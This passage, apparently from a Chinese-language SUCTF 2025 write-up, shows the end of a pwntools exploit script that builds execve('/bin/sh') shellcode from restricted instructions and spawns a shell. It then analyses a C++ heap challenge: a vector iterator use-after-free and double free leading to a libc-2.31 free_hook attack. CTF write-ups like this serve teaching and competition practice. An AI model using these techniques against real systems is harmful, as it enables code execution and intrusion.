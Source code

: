```py
    return test(4)

# jmp 0x13 这段，可能可以不按字符的顺序任意跳    
p.recvuntil("Input ur code:\n")
payload = jmp_0x13()+clc()*0xf+mov_imm(0,0x5e54) # push rsp, pop rsi
payload += jmp_0x13()+clc()*0xf+mov_imm(0,0x8b2) # mov dl, 8
payload += jmp_0x13()+clc()*0xf+mov_imm(0,0x50f) # syscall; read to stack
payload += jmp_0x13()+clc()*0xf+mov_imm(0,0x3bb0) # mov al,59
payload += jmp_0x13()+clc()*0xf+mov_imm(0,0x5f54) # push rsp, pop rdi
payload += mov_imm(3,0)+jmp_0x13()+clc()*0xf+mov_imm(0,0x6a) # push 0
payload += jmp_0x13()+clc()*0xf+mov_imm(0,0x905e)
payload += jmp_0x13()+clc()*0xf+mov_imm(0,0x50f) # syscall; execve
p.send(payload)
sleep(1)
p.send("/bin/sh\x00")
p.interactive()

```
### reference
- https://shell-storm.org/shellcode/files/shellcode-909.html
- https://blog.xmcve.com/2025/01/14/SUCTF2025-Writeup/#title-28

## SU_msg_cfgd - SU CTF 2025
唉 堆风水真的会不了一点.... 打了好几天 确实好累hhh   
### 漏洞
整体是 C++ 写的一个菜单堆题，利用的点主要是 vector 迭代器失效    
具体代码如下：  
```c
if ( *((_BYTE *)v8 + 40) )
    {
      v4 = std::vector<Config *>::end((char *)this + 16);
      v5 = std::vector<Config *>::begin((char *)this + 16);
      *((_QWORD *)this + 5) = std::find_if<__gnu_cxx::__normal_iterator<Config **,std::vector<Config *>>,MsgHandler::handleCMD(char *)::{lambda(Config *)#1}>(
                                v5,
                                v4,
                                v8);            // vuln
    }
```
这里会把 `*(this + 0x40)` 赋值为一个 iterator，菜单中的 visit_obj 是 visit 这个 iterator，而且基本没检查，从而可以有一个 UAF read     
而还提供了一个 cmdUpdate，无法 UAF write 但是可以 double free   

### 思路
有个傻子 leak heap 之后才想到 libc-2.31 可以打 free_hook 就不需要堆地址了qaq     

### leak
首先讲一下这个 vector 的构造，它主要是涉及的 `std::vector<Config *>` 所以相应堆块的构造是存放了一系列的 Config* 指针     
然后我们需要设置成 `*((_QWORD *)this + 5)` 的指针**不能是该堆块的前 0x0 或 0x8 offset**，否则当 create 4+次的时候会触发 vector 的扩容，具体来说，会 free 掉原先存放指针的堆内存，malloc 新的堆内存然后把指针拷贝过去，如果设置该指针是前 0x0/0x8 offset 则会再旧的堆内存 free 的时候填充上 tcache fd/bk 从而无法 leak    
还有一个问题就是，每次 cmdAdd 对于大堆块的申请都涉及以下操作：   
MsgHandler::handleCMD 里面调用 parseTLVCfgCMD 会 malloc 一次， cmdAdd 里面 malloc 两次，后一次申请的堆块会被 vector 保存，后delete 前一次申请的堆块， handleCMD 调用完 subhandler 之后再 free 掉 parseTLVCfgCMD 申请的大堆块    
所以在我们申请的 0x460 堆块之前，会有一个 0x800+ 大小的 unsorted bin 块，如果不把它消耗掉的话会在 delete 我们想要的大堆块的时候和该堆块合并，从而不会在 fd/bk 写到 libc 地址     
所以我们申请完 0x460 的堆块之后还要额外申请两次 0x100+ 左右的堆块，消耗掉该 unsorted bin 的大堆块才行    
